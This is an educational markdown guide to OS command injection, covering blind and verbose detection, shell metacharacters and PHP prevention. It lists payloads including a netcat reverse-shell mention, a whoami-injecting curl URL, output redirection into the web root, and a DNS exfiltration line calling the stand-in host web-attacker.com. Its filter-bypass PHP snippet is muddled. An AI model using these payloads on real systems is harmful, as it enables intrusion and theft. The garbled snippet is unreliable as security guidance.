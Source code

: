 # OS Command Injection
Command Injection is a vulnerability that occurs when an attacker manipulates input fields to inject malicious commands into a vulnerable application.
<br>
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/02292dae-1dea-4246-ae57-294ec98a348d)

## Types of Command Injection

1. **In-band Command Injection:**
   - Consists of an attacker executing commands on the host operating system via a vulnerable application and receiving the response of the command in the application.

2. **Blind Command Injection:**
   - Consists of an attacker executing commands on the host operating system via a vulnerable application that does not return the output from the command within its HTTP response.


![image](https://github.com/PranjalBasak/Documentation/assets/66166653/e55cb0d4-9403-4d31-b1bc-4398c9c6714c)

## What's Blind Command Injection?
It's when command injection goes down, but you don't see any immediate output - like, crickets. No messages from the web app, nada.

- **Making It Show Up:**
  - To catch this sneaky stuff, throw in payloads causing delays, like ping and sleep commands. For instance, make the app hang for a bit with the ping command.

- **Force Output Like a Boss:**
  - Another trick is to use redirection operators (think ">"). Force the app to spill the beans by executing commands and redirecting the output to a file. Then, sneak a peek using a command like cat.

- **Messing Around with Curl:**
  - Test for command injection with the curl command. It lets you sling data to and from the app in your payload. Check this out - a simple curl payload for command injection testing:

```bash
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
```

## Detecting Verbose Command Injection

Detecting command injection this way is probably the easier one of the two. Verbose command injection happens when the app spills the beans, giving you feedback or output about what's going on or being executed.

For instance, when you run commands like ping or whoami, the web app spills the details right on its interface.

### Useful Payloads

I've got some handy payloads for both Linux and Windows in the tables below.

#### Linux

| Payload | Description |
|---------|-------------|
| whoami  | See what user the app is running under. |
| ls      | List the contents of the current directory. Hunt for config files, environment files (like tokens and app keys), and other juicy stuff. |
| ping    | Make the app hang. Great for testing blind command injection. |
| sleep   | Another one for testing blind command injection, especially when ping is MIA. |
| nc      | Netcat can spawn a reverse shell on the vulnerable app. Use it to navigate around the target machine for services, files, or potential privilege escalation. |

#### Windows

| Payload | Description |
|---------|-------------|
| whoami  | See what user the app is running under. |
| dir     | List the contents of the current directory. Dig for config files, environment files, and other valuable goodies. |
| ping    | Make the app hang. Useful for testing blind command injection. |
| timeout | Another app-freezing command. Handy for blind command injection tests if ping isn't around. |

| Purpose of command      | Linux            | Windows           |
|-------------------------|------------------|-------------------|
| Name of current user    | whoami           | whoami            |
| Operating system        | uname -a          | ver               |
| Network configuration    | ifconfig         | ipconfig /all     |
| Network connections     | netstat -an      | netstat -an       |
| Running processes        | ps -ef           | tasklist          |

### Injection Techniques

Use various shell metacharacters for OS command injection:

- Command separators (work on both systems): `&`, `&&`, `|`, `||`
- Unix-only separators: `;`, Newline (`\n`)
- Inline execution (Unix-only): `` `injected command` ``, `$(injected command)`

Considerations for special characters within quoted contexts in original commands.

## Blind OS Command Injection on Vulnerable Websites

### Overview

Many instances of OS command injection are blind vulnerabilities, meaning that the application doesn't display the command output in its HTTP responses. Despite this, blind vulnerabilities can still be exploited using various techniques.

### Example Scenario

Consider a website where users can submit feedback. The server-side application generates an email to an administrator using a command like:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

Since the command output isn't in the application's responses, traditional echo payloads won't work. Alternative techniques are needed.

### Techniques for Detection and Exploitation

1. **Detecting with Time Delays:**
   - Use time delays triggered by an injected command.
   - Example: `& ping -c 10 127.0.0.1 &`

2. **Redirecting Output:**
   - Redirect command output to a retrievable file in the web root.
   - Example: `& whoami > /var/www/static/whoami.txt &`

3. **Out-of-Band (OAST) Interaction:**
   - Trigger an out-of-band network interaction.
   - Example: `& nslookup kgji2ohoyw.web-attacker.com &`

4. **Out-of-Band Data Exfiltration:**
   - Use DNS lookups to exfiltrate command output.
   - Example: `& nslookup \`whoami\`.kgji2ohoyw.web-attacker.com &`



### Prevention Measures

The most effective prevention is to avoid calling OS commands from application-layer code. If unavoidable:

- Perform strong input validation.
- Examples: Whitelisting permitted values, validating as a number, allowing only alphanumeric characters.
- Never attempt to sanitize input by escaping shell metacharacters; it's error-prone and easily bypassed.

**Note:** The provided examples and techniques are for educational purposes. Always adhere to ethical hacking practices and obtain proper authorization before testing on any system.

### Preventing Command Injection

#### Vulnerable Functions in PHP

In PHP, certain functions like `exec`, `passthru`, and `system` interact with the OS, potentially executing commands via shell. For example, in the snippet below, the app only accepts and processes numerical input, avoiding command execution:

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/36d52ee5-a8c5-4485-8d6b-24542d214fa4)


#### Input Sanitization

Sanitizing user input is key to preventing command injection. Specify accepted data formats, like allowing only numerical input or removing special characters such as > ,  & and /.:

```php
// Use filter_input to check if submitted data is a number
$input = filter_input(INPUT_POST, 'user_input', FILTER_VALIDATE_INT);

if ($input !== false) {
    // Valid numerical input, proceed
} else {
    // Invalid input, reject
}
```

#### Bypassing Filters

While applications use filters to restrict payloads, it's possible to bypass them. For instance, if an app strips out quotation marks, using their hexadecimal values can achieve the same result:

```php
// Example of bypassing filters using hexadecimal values
$userInput = str_replace('\x22', '"', $_POST['user_input']);

// Process userInput
```

Keep in mind the importance of thorough input validation and regularly update your defense mechanisms against evolving techniques.

Payload List: https://github.com/payloadbox/command-injection-payload-list
